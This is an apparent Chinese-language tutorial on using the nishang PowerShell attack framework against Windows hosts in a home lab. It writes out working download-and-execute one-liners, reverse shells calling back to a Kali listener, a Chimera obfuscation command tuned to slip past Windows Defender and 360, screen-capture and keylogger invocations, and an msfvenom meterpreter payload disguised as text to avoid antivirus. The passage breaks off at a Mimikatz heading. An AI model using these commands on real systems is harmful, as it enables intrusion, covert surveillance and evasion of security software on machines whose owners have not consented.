





# nishang

* `powershell 工具框架`
* `windows原生调用`
* `自带一定的免杀能力`

**下载地址：**[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)   在kali上已经集成，命令nishang  可直接进入对应文件夹路径

**案例环境：kali:监听机 192.168.31.113     被攻击机：192.168.31.116  192.168.31.237**

**这里介绍几个nishang  powershell脚本的使用方法。**

**个人认为nishang的很多脚本魔改较为方便，对于powershell初学者是一个不错的学习项目**

## 0X01 框架介绍

**nishang工具主要有以下几个模块,看名字就基本知道是拿来干什么的**


**比较常用到的部分是** `shells`中的反弹shell，`Gather`模块中的信息收集脚本。

## 0X02 载入模块

**powershell 可以加载模块，并调用里面的函数。**

```
PS C:\Users\anquan> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Con...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     1.1        PSReadline                          {Get-PSReadlineKeyHandler, Get-PSReadlineOption, Remove-PS...
```

**注意：因为安全原因windows默认是不允许powershell 加载模块和执行powershell脚本的。在学习阶段，可以通过调整执行策略开放这个权限**

**powershell 中输入'Get-ExecutionPolicy' 查看当前的执行策略 **`Set-ExecutionPolicy Unrestricted`  来设置策略为unrestrivtsed 模式，在这个模式下，导入和使用模块。

**Set-ExecutionPolicy Unrestricted 这一步往往需要高权限的用户来执行**

```
PS C:\phpstudy_pro\WWW\nishang-master> Import-Module .\nishang.psm1
```

**然后就会发现：**

```
此脚本包含恶意内容，已被你的防病毒软件阻止。
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

所在位置 C:\phpstudy_pro\WWW\nishang-master\Backdoors\Add-ScrnSaveBackdoor.ps1:1 字符: 1
+ function Add-ScrnSaveBackdoor
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
此脚本包含恶意内容，已被你的防病毒软件阻止。
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

所在位置 C:\phpstudy_pro\WWW\nishang-master\Backdoors\DNS_TXT_Pwnage.ps1:1 字符: 1
+
此脚本包含恶意内容，已被你的防病毒软件阻止。
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

所在位置 C:\phpstudy_pro\WWW\nishang-master\Backdoors\Execute-OnTime.ps1:1 字符: 1
+
此脚本包含恶意内容，已被你的防病毒软件阻止。
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

**windows defender 直接发现有问题，不让你加载，尝试了一下，部分模块可以通过去除前面的帮助信息做到规避windowsdefender的检测从而正常的加载执行**

**学习阶段先关闭windowsdefender 熟悉一下模块加载**

**成功加载之后：可以看到nishang模块已经加载了**

```
PS C:\phpstudy_pro\WWW\nishang-master> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Content...}
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     0.0        nishang                             {ConvertTo-ROT13, DecryptNextCharacterWinSCP, DecryptWinSCPPassword, Download...}
Script     1.1        PSReadline                          {Get-PSReadlineKeyHandler, Get-PSReadlineOption, Remove-PSReadlineKeyHandler, S...

```

**查看可以使用的命令： 这里由于部分模块中有无法导入的字符，无法成功导入，这里并不是所有的模块**

```
PS C:\phpstudy_pro\WWW\nishang-master> Get-Command  -Module  nishang

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        ConvertTo-ROT13                                    0.0        nishang
Function        DecryptNextCharacterWinSCP                         0.0        nishang
Function        DecryptWinSCPPassword                              0.0        nishang
Function        Download                                           0.0        nishang
Function        DownloadAndExtractFromRemoteRegistry               0.0        nishang
Function        Download-Execute-PS                                0.0        nishang
Function        Enable-DuplicateToken                              0.0        nishang
Function        Execute-Command-MSSQL                              0.0        nishang
Function        FireListener                                       0.0        nishang
Function        GetComputersFromActiveDirectory                    0.0        nishang
Function        GetMappedSID                                       0.0        nishang
Function        Invoke-PortScan                                    0.0        nishang
Function        Invoke-PowerShellUdp                               0.0        nishang
Function        Invoke-PowerShellWmi                               0.0        nishang
Function        Invoke-Prasadhak                                   0.0        nishang
Function        Invoke-SessionGopher                               0.0        nishang
Function        Invoke-SSIDExfil                                   0.0        nishang
Function        Out-SCT                                            0.0        nishang
Function        ProcessFileZillaFile                               0.0        nishang
Function        ProcessPPKFile                                     0.0        nishang
Function        ProcessPuTTYLocal                                  0.0        nishang
Function        ProcessRDPFile                                     0.0        nishang
Function        ProcessRDPLocal                                    0.0        nishang
Function        ProcesssdtidFile                                   0.0        nishang
Function        ProcessSuperPuTTYFile                              0.0        nishang
Function        ProcessThoroughLocal                               0.0        nishang
Function        ProcessThoroughRemote                              0.0        nishang
Function        ProcessWinSCPLocal                                 0.0        nishang
Function        Set-DCShadowPermissions                            0.0        nishang
Function        Set-RemotePSRemoting                               0.0        nishang
Function        Set-RemoteWMI                                      0.0        nishang
Function        Show-TargetScreen                                  0.0        nishang
Function        Speak                                              0.0        nishang
```

**之后在powershell 命令行中直接调用就好了。**

## 0X03 不开放执行策略的执行方式

### 远程调用执行：

**kali上开一个web服务器用于传输nishang**

**在nishang的路径下开一个简单的php服务器（当然也可以是python或者其他的）：**

**kali:**

```
php -S 0:80
```

**windos10:**

```
iex (New-Object net.webclient).DownloadString('http://192.168.31.113/Gather/Check-VM.ps1');Check-VM
```

**即可从远程加载chek-vm.ps1 模块，并执行其中 Check-VM函数 ，这样做是不需要Set-ExecutionPolicy Unrestricted就可以直接执行。并且windowsdenfender和360都不会阻止**

**这个模块是用来检查机器是否是虚拟机，这里成功检测出这个环境是vmware的虚拟机**



**iex 是 Invoke-Expression的缩写 直接将字符串等当作命令来进行解析。值得注意的是：这里用的powershell命令的另一个函数Downloadfile 是很好的向windows 传输文件的方法**

`(New-Object net.webclient).Downloadfile('[http://192.168.31.113/nc.exe','nc.exe');](http://192.168.31.113/Gather/Check-VM.ps1');Check-VM)`

### 本地执行方式

**这种方式使用于已经将脚本上传到目标机器上的情况（如果有杀毒软件的话基本都会被清除掉）**

**1 调用具体脚本：**

```
powershell –exec bypass –Command "&{Import-Module 'D:\phpstudy\WWW\DVWA\hackable\uploads\nishang-master\Gather\Check-VM.ps1';Check-VM}"
```

** 这种方法可以不用换restrit 限制，但是也是最好删除脚本文件上的提示信息，否则会触发windows defenfer 的防御无法正常执行**

## 反弹shell的用法：

#### 本地引用反弹shell 模块

```
powershell –exec bypass –Command "&{Import-Module 'D:\phpstudy\WWW\DVWA\hackable\uploads\nishang-master\shells\Invoke-PowerShellTcp.ps1';Invoke-PowerShellTcp -Reverse -IPAddress 192.168.31.133  -Port 6666}"
```

**kali 上直接 nc -nvlp 6666 就可以 接受到反弹shell**

**这个模块会被windowsdefender 直接拦下来，不论是否删除头部的帮助信息字符串，并且本地文件会被杀软干碎，所以并不实用**

#### 远程下载执行：

**kali 开启监听：**`nc -nvlp 8888`

**windwos:**

```
powershell iex (New-Object net.webclient).DownloadString('http://192.168.31.113/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -reverse -ipaddress 192.168.31.113 -port 8888
```

**会发现被windowsdefender 拦截下来，不论是否删除了 Invoke-PowerShellTcp.ps1 头部的帮助文档字符段**



#### 混淆+远程下载执行：

**这里使用的是chimera工具     **

**下载地址**[https://github.com/tokyoneon/Chimera](https://github.com/tokyoneon/Chimera)

**详细用法**[https://github.com/tokyoneon/Chimera/blob/master/USAGE.md](https://github.com/tokyoneon/Chimera/blob/master/USAGE.md)

**这个工具的shells中自带了改写的nishang invoke-powershelltcp.ps1文件，我们只需要修改ip和端口，之后用chimera工具对其进行混淆就可以直接使用**

**kali**

**修改 shells/Invoke-PowerShellTcp.ps1 的最后一行的ip+端口为监听的ip和端口，之后执行下面的命令**

```
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /tmp/chimera.ps1 -v -t powershell,windows,copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,invoke-expression,out-string,write-error -j -g -k -r -p

cd /tmp/&&php -s 0:80  #开启web服务

nc -nvlp 8888     #另开一个终端开启监听
```

**在/tmp/目录下生成一个混淆过的chimera.ps1 文件**

**widows:**

```
powershell iex (New-Object net.webclient).DownloadString('http://192.168.31.113/chimera.ps1')
```

**kali即可收到反弹的powershell，****并且不会触发windowsdefender 和360 ****会被火绒拦截**



### 查看目标屏幕

**kali :  nc -nvlp 6666 |nc -nvlp 9999**

**目标机器：**

```
iex (New-Object net.webclient).DownloadString('http://192.168.31.113/Gather/Show-TargetScreen.ps1');Show-TargetScreen -reverse -ipaddress 192.168.31.113 -port 6666
```

**这时，kali在浏览器上访问本地的9999端口，就可以看到传输过来的桌面画面，****并且不会触发360、火绒和windowsdefender**

### 键盘记录

**这里只介绍简单的使用：**

**windows:**

```
powershell iex (New-Object net.webclient).DownloadString('http://192.168.31.113/Gather/Keylogger.ps1');Keylogger -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -MagicString stopthis
```

**这里是官方给出的例子，这种是在本地保存，会在/User/用户/AppData/Local/Temp/下创建一个key.log的文件，里面是键盘记录的信息，但是是经过编码的，需要通过/Utility/Parse_Keys来解码**

**也可以选择将信息post到一个指定的服务器上，详见官方说明**

**上述操作会被windwosdefender拦截，删除头部帮助信息也没用**

**通过在原文件最后加上一行**

`Keylogger -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -MagicString stopthis`

**并通过chimera 进行与反弹shell一样的混淆后会破坏原有结构导致无法执行**

**用Invoke-Obfuscation 进行AScii 混淆后依然无法执行**



#### nishang 和MSF进行联动

**msf 生成一个木马放到有nishang的环境上（我这里用的是另一台windows虚拟机）：**

**kali：**

```
msfvenom -p windows/x64/meterpreter/reverse_tcp   LHOST=192.168.31.113   LPORT=8888  -f exe  -o muma.exe
```

**windows**

```
powershell –exec bypass –Command "&{Import-Module 'C:\Users\13406\Desktop\nishang-master\nishang-master\Utility\ExetoText.ps1'; ExetoText.ps1 C:\Users\13406\Desktop\muma.exe   C:\Users\13406\Desktop\muma2.txt }"
```

**这时会生成一个txt文件，里面是经过处理过的payload字符串，这是用360去扫描是不会报毒的**

**将这个txt文件放到web服务器上，同时在kali上开启msfconsole 进行监听：**

**windows:**

```
powershell iex (New-Object net.webclient).DownloadString('http://192.168.31.113/Execution/Download_Execute.ps1');Download_Execute http://192.168.31.113/Shells/muma2.txt}" 
```

**kali 上可以看到meterpreter 上线；*****前提：没有杀毒软件，360会直接检测报毒**



### Mimikatz 模块

**nishang 集成的mimikatz模块**
